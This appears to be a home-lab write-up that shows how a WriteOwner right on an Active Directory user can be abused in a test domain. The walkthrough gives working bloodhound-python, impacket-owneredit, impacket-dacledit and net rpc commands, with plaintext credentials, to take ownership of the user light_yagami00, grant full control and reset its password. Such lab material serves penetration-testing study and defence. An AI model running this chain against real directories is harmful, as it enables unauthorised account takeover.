








DACL Abuse (WriteOwner on User)
Hypothesis: Following the compromise of the user eren_yeager09 (Password: Rumbling!321), we analyzed the account's permissions. We hypothesized that this user might possess WriteOwner privileges, a potent right that allows a principal to seize ownership of other Active Directory objects.
Findings: BloodHound analysis confirmed a WriteOwner edge from eren_yeager09 to the user light_yagami00.
Impact: Ownership is the highest privilege in the Windows security model. An object's Owner has the implicit right to modify that object's permissions (DACL), even if they have no explicit access listed. This creates a two-step kill chain: Take Ownership -> Grant Self Full Control.

Objective: To simulate this misconfiguration, we manually modified the ACL of light_yagami00 to grant Change Ownership rights to Eren.
dsacls.exedsacls.exe "CN=light_yagami00,CN=Users,DC=shinobi,DC=local" /G shinobi\eren_yeager09:WO
(Note: :WO stands for Write Owner).
dsacls output explicitly lists CHANGE OWNERSHIP under Special Access for eren_yeager09.
Objective: Refresh the dataset to confirm the path exists before exploitation.
Execution:
bloodhound-python -u eren_yeager09 -p 'Rumbling!321' -ns 192.168.56.10 -d shinobi.local -c All

Hypothesis: "Since we have the WriteOwner permission, we can forcibly change the owner of the target object light_yagami00 to ourselves (eren_yeager09)."
impacket-ownereditimpacket-owneredit -action write -new-owner 'eren_yeager09' -target-dn 'CN=LIGHT_YAGAMI00,CN=USERS,DC=SHINOBI,DC=LOCAL' 'shinobi.local'/'eren_yeager09':'Rumbling!321' -dc-ip 192.168.56.10
OwnerSid modified successfully!. We now own the user object.

Hypothesis: "Being the Owner does not automatically give us the ability to reset passwords or read data yet. However, the Owner always has the right to write to the DACL. We will now abuse our ownership to grant ourselves Full Control."
impacket-dacleditimpacket-dacledit -action 'write' -rights 'FullControl' -principal 'eren_yeager09' -target-dn 'CN=LIGHT_YAGAMI00,CN=USERS,DC=SHINOBI,DC=LOCAL' 'shinobi.local'/'eren_yeager09':'Rumbling!321' -dc-ip 192.168.56.10
DACL modified successfully!.
dsacls again confirms that eren_yeager09 now has FULL CONTROL over light_yagami00.
Objective: With Full Control established, we can now perform any administrative action. We will reset the target's password to finalize the compromise.
net rpc (Samba)net rpc password light_yagami00 'ComplexPassword@123' -U shinobi.local/eren_yeager09%'Rumbling!321' -S 192.168.56.10
light_yagami00 account.
{kind=link}